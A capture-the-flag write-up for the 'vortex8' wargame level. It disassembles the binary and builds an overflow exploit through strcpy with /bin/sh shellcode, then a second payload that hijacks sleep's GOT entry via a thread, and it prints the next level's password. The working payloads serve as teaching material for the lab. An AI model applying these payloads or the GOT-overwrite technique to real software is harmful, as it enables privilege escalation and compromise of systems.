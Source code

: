 Dump of assembler code for function main:
```assembly
   0x080486b8 <+0>:     push   ebp
   0x080486b9 <+1>:     mov    ebp,esp
   0x080486bb <+3>:     push   esi
   0x080486bc <+4>:     push   ebx
   0x080486bd <+5>:     and    esp,0xfffffff0
   0x080486c0 <+8>:     sub    esp,0x20
   0x080486c3 <+11>:    mov    DWORD PTR [esp+0xc],0x0
   0x080486cb <+19>:    mov    DWORD PTR [esp+0x8],0x804865d		# safecode function
   0x080486d3 <+27>:    mov    DWORD PTR [esp+0x4],0x0
   0x080486db <+35>:    lea    eax,[esp+0x1c]				# esp+0x1c = pthread_t struct
   0x080486df <+39>:    mov    DWORD PTR [esp],eax
   0x080486e2 <+42>:    call   0x8048550 <pthread_create@plt>		# create a new thread
   0x080486e7 <+47>:    call   0x8048530 <getgid@plt>			# returns the real group ID of the calling process
   0x080486ec <+52>:    mov    esi,eax					# esi
   0x080486ee <+54>:    call   0x8048530 <getgid@plt>
   0x080486f3 <+59>:    mov    ebx,eax					# ebx
   0x080486f5 <+61>:    call   0x8048530 <getgid@plt>			
   0x080486fa <+66>:    mov    DWORD PTR [esp+0xc],esi
   0x080486fe <+70>:    mov    DWORD PTR [esp+0x8],ebx
   0x08048702 <+74>:    mov    DWORD PTR [esp+0x4],eax			
   0x08048706 <+78>:    mov    DWORD PTR [esp],0xaa
   0x0804870d <+85>:    call   0x8048540 <syscall@plt>			# syscall --> sets effective, real and saved user id of (eax, ebx, esi)
   0x08048712 <+90>:    call   0x80484f0 <getuid@plt>			# which are all gid
   0x08048717 <+95>:    mov    esi,eax
   0x08048719 <+97>:    call   0x80484f0 <getuid@plt>			#get user id
   0x0804871e <+102>:   mov    ebx,eax
   0x08048720 <+104>:   call   0x80484f0 <getuid@plt>
   0x08048725 <+109>:   mov    DWORD PTR [esp+0xc],esi
   0x08048729 <+113>:   mov    DWORD PTR [esp+0x8],ebx
   0x0804872d <+117>:   mov    DWORD PTR [esp+0x4],eax
   0x08048731 <+121>:   mov    DWORD PTR [esp],0xa4
   0x08048738 <+128>:   call   0x8048540 <syscall@plt>			# syscall --> set hostname by inputing user id
   0x0804873d <+133>:   mov    eax,DWORD PTR [ebp+0xc]			
   0x08048740 <+136>:   add    eax,0x4
   0x08048743 <+139>:   mov    eax,DWORD PTR [eax]			# eax = argv[1]
   0x08048745 <+141>:   mov    DWORD PTR [esp],eax			# push argv[1]
   0x08048748 <+144>:   call   0x8048698 <unsafecode>			# unsafecode(argv[1]_
   0x0804874d <+149>:   mov    eax,0x0
   0x08048752 <+154>:   lea    esp,[ebp-0x8]
   0x08048755 <+157>:   pop    ebx
   0x08048756 <+158>:   pop    esi
   0x08048757 <+159>:   pop    ebp
   0x08048758 <+160>:   ret
```
Dump of assembler code for function unsafecode:
```assembly
   0x08048698 <+0>:     push   ebp
   0x08048699 <+1>:     mov    ebp,esp
   0x0804869b <+3>:     sub    esp,0x418				# allocate 0x418 = 1048
   0x080486a1 <+9>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486a4 <+12>:    mov    DWORD PTR [esp+0x4],eax
   0x080486a8 <+16>:    lea    eax,[ebp-0x408]
   0x080486ae <+22>:    mov    DWORD PTR [esp],eax
   0x080486b1 <+25>:    call   0x8048500 <strcpy@plt>			# strcpy(local_buffer, argv[1])
   0x080486b6 <+30>:    leave  
   0x080486b7 <+31>:    ret    
```
Dump of assembler code for function safecode:
```assembly
   0x0804865d <+0>:     push   %ebp
   0x0804865e <+1>:     mov    %esp,%ebp
   0x08048660 <+3>:     sub    $0x28,%esp
   0x08048663 <+6>:     movl   $0x0,-0xc(%ebp)
   0x0804866a <+13>:    mov    -0xc(%ebp),%eax
   0x0804866d <+16>:    mov    %eax,0x4(%esp)
   0x08048671 <+20>:    movl   $0x80487f0,(%esp)
   0x08048678 <+27>:    call   0x80484c0 <printf@plt>
   0x0804867d <+32>:    mov    0x804a040,%eax
   0x08048682 <+37>:    mov    %eax,(%esp)
   0x08048685 <+40>:    call   0x80484d0 <fflush@plt>
   0x0804868a <+45>:    movl   $0x1,(%esp)
   0x08048691 <+52>:    call   0x80484e0 <sleep@plt>
   0x08048696 <+57>:    jmp    0x804866a <safecode+13>
```
and a better way to look at it:
```c
#include <stdio.h>
#include <stdlib.h>
#include <pthread.h>
#include <string.h>
 
void *safecode(void *handle) {
    while(1) {
        int var = 0;
        printf("%d\n", var);
        fflush(stdout);
        sleep(1);
    }
}
```
simply enough, it seems like a simple buffer overflow, let's try:  
r $(python -c 'print "a"*1048') --> segmentation fault 0x61616161 --> it works  
r $(python -c 'print "a"*1036+"bbbb"') --> segmentation fault 0x62626262 --> now lets append a shellcode and try an address...  
r $(python -c 'print "a"*1036+"bbbb"+"\x90" * 64+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')  
so we put 0xffffd2a0:  
./vortex8 $(python -c 'print "a"*1036+"\xb0\xd2\xff\xff"+"\x90" * 64+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')  

and you thought it was so easy... the catch is we're still vortex8 (remember the part where the syscall was?):  
$ whoami  
vortex8  
so, we need to figure out a different way...  
we must somehow make the thread activate the shell, because the main function lacks the privliges...  
OK, so we will use a method we previously used in the vortex series: global table function overwrite  
Dump of assembler code for function sleep@plt:
```assembly
   0x080484e0 <+0>:     jmp    *0x804a014
   0x080484e6 <+6>:     push   $0x10
   0x080484eb <+11>:    jmp    0x80484b0
```
so we need to overwrite 0x80484e2 value:  
0x80484e2 <sleep@plt+2>:        0x0804a014  
let's export a shellcode to a envp...  
export EGG  
EGG=$(python -c 'print "\x90"*64 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')  
and we want to change its value to the value of the address 0xffffd920 (env var named EGG with shell in it)  
thus, we need to change the shellcode in our buffer so that it will write 0xffffd920 to 0x804a014  
assembly code:
```assembly
section .text                                                                
global main                                                                  
                                                                             
main:                                                                        
        mov ebx, DWORD 0x0804a014                                                                                                  
        mov [ebx], DWORD 0xffffd920
	jmp main
```
compile it and objdump the file to get:  
Disassembly of section .text:
```assembly
08048060 <main>:
 8048060:       bb 14 a0 04 08          mov    $0x804a014,%ebx
 8048065:       c7 03 20 d9 ff ff       movl   $0xffffd94b,(%ebx)
		eb f3			jmp main
```
--> \xbb\x14\xa0\x04\x08\xc7\x03\x20\xd9\xff\xff\xeb\xf3  
so now we replace the shellcode with the following... (note: I had to change the return address to 0xffffd860, because I had to restart the session and as a result the adresses changed a lot...)  
let's put it all toghether:  
/vortex/vortex8 $(python -c 'print "a"*1036+"\x60\xd8\xff\xff"+"\x90" * 64 + "\xbb\x14\xa0\x04\x08\xc7\x03\x20\xd9\xff\xff\xeb\xf3"')  

at last, we get:  
$ whoami  
vortex9  
$ cat /etc/vortex_pass/vortex9  
ci41)GJhb  
